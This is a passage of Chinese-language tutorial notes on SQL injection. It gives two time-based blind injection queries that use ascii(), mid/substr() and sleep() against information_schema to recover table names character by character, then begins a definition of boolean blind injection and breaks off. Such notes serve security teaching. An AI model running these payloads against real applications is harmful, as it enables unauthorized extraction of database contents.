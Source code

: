 1.防止引号 ‘  “ 转义

2.方便以后工具的使用

使用ascii函数（）

![ascii函数](./assets/20250210/3c04694b16c84d54ac54a69380820c5e.png)

结合场景使用：

select * from t1 where id=1 and if(ascii(mid((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=120,sleep(3),0);

select * from t1 where id=1 and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=116,sleep(2),0);

```
SQL注入之布尔盲注
```

### 1.什么是布尔盲注？

Web的页面的仅仅会返回True和False。那么布尔盲注就是进行SQL注入之后然后根据页面返回的True或者是False来得到数据库中的相关信息。

返回False时：

![](./assets/20250210/8606a772a75a4ddeb7deaddce00409f1.png)

返回True时：
